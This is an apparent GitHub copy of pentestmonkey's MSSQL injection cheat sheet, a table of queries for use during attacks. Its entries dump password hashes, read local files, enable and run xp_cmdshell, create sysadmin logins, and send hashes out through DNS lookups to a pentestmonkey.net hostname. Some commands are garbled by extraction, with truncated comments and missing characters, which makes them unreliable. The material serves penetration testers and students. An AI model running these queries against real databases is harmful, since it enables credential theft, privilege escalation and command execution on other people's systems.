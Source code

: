 # All credits to pentestmonkey
|Description| Command|
|--- |--- |
|Version|SELECT @@version|
|Comments|SELECT 1 — commen; SELECT /*comment*/1|
|Current User|SELECT user_name(); SELECT system_user; SELECT user; SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID|
|List Users|SELECT name FROM master..syslogins|
|List Password Hashes|SELECT name, password FROM master..sysxlogins — priv, mssql 2000; SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins — priv, mssql 2000.  Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer; SELECT name, password_hash FROM master.sys.sql_logins — priv, mssql 2005; SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins — priv, mssql 2005|
|Password Cracker|MSSQL 2000 and 2005 Hashes are both SHA1-based.  phrasen|drescher can crack these.|
|List Privileges|– current privs on a particular object in 2005, 200; SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’); — current databas; SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’); — current serve; SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’); –permissions on a tabl; SELECT permission_name FROM master..fn_my_permissions(‘sa’, ‘USER’); –permissions on a user– current privs in 2005, 200; SELECT is_srvrolemember(‘sysadmin’); SELECT is_srvrolemember(‘dbcreator’); SELECT is_srvrolemember(‘bulkadmin’); SELECT is_srvrolemember(‘diskadmin’); SELECT is_srvrolemember(‘processadmin’); SELECT is_srvrolemember(‘serveradmin’); SELECT is_srvrolemember(‘setupadmin’); SELECT is_srvrolemember(‘securityadmin’); – who has a particular priv? 2005, 200; SELECT name FROM master..syslogins WHERE denylogin = 0; SELECT name FROM master..syslogins WHERE hasaccess = 1; SELECT name FROM master..syslogins WHERE isntname = 0; SELECT name FROM master..syslogins WHERE isntgroup = 0; SELECT name FROM master..syslogins WHERE sysadmin = 1; SELECT name FROM master..syslogins WHERE securityadmin = 1; SELECT name FROM master..syslogins WHERE serveradmin = 1; SELECT name FROM master..syslogins WHERE setupadmin = 1; SELECT name FROM master..syslogins WHERE processadmin = 1; SELECT name FROM master..syslogins WHERE diskadmin = 1; SELECT name FROM master..syslogins WHERE dbcreator = 1; SELECT name FROM master..syslogins WHERE bulkadmin = 1;|
|List DBA Accounts|SELECT is_srvrolemember(‘sysadmin’); — is your account a sysadmin?  returns 1 for true, 0 for false, NULL for invalid role.  Also try ‘bulkadmin’, ‘systemadmin’ and other values from the documentatio;  SELECT is_srvrolemember(‘sysadmin’, ‘sa’); — is sa a sysadmin? return 1 for true, 0 for false, NULL for invalid role/username; SELECT name FROM master..syslogins WHERE sysadmin = ’1′ — tested on 2005|
|Current Database|SELECT DB_NAME()|
|List Databases|SELECT name FROM master..sysdatabases; SELECT DB_NAME(N); — for N = 0, 1, 2, …|
|List Columns|SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB onl; SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable|
|List Tables|SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for view; SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’; SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable|
|Find Tables From Column Name|– NB: This example works only for the current database.  If you wan’t to search another db, you need to specify the db name (e.g. replace sysobject with mydb..sysobjects); SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = ‘U’ AND syscolumns.name LIKE ‘%PASSWORD%’ — this lists table, column for each column containing the word ‘password’|
|Select Nth Row|SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq ORDER BY name DESC — gets 9th row|
|Select Nth Char|SELECT substring(‘abcd’, 3, 1) — returns c|
|Bitwise AND|SELECT 6 & 2 — returns ; SELECT 6 & 1 — returns 0|
|ASCII Value -> Char|SELECT char(0×41) — returns A|
|Char -> ASCII Value|SELECT ascii(‘A’) – returns 65|
|Local File Read|SELECT * FROM OPENROWSET(BULK N'C:\\Windows\\win.ini', SINGLE_CLOB) AS Contents|
|Casting|SELECT CAST(’1′ as int); SELECT CAST(1 as char)|
|String Concatenation|SELECT ‘A’ + ‘B’ – returns AB|
|If Statement|IF (1=1) SELECT 1 ELSE SELECT 2 — returns 1|
|Case Statement|SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END — returns 1|
|Avoiding Quotes|SELECT char(65)+char(66) — returns AB|
|Time Delay|WAITFOR DELAY ’0:0:5′ — pause for 5 seconds|
|Make DNS Requests|declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’); — nonpriv, works on 2000declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’); — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary; – Also check out theDNS tunnel feature of sqlninja|
|Command Execution|EXEC xp_cmdshell ‘net user’; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default: EXEC sp_configure ‘show advanced options’, 1; — pri; RECONFIGURE; — pri; EXEC sp_configure ‘xp_cmdshell’, 1; — pri; RECONFIGURE; — priv|
|Local File Access|CREATE TABLE mydata (line varchar(8000)); BULK INSERT mydata FROM ‘c:boot.ini’; DROP TABLE mydata;|
|Hostname, IP Address|SELECT HOST_NAME()|
|Create Users|EXEC sp_addlogin ‘user’, ‘pass’; — priv|
|Drop Users|EXEC sp_droplogin ‘user’; — priv|
|Make User DBA|EXEC master.dbo.sp_addsrvrolemember ‘user’, ‘sysadmin; — priv|
|Location of DB files|EXEC sp_helpdb master; –location of master.md; EXEC sp_helpdb pubs; –location of pubs.mdf|
|Default/System Databases|northwin; mode; msd; pubs — not on sql server 200; tempdb|
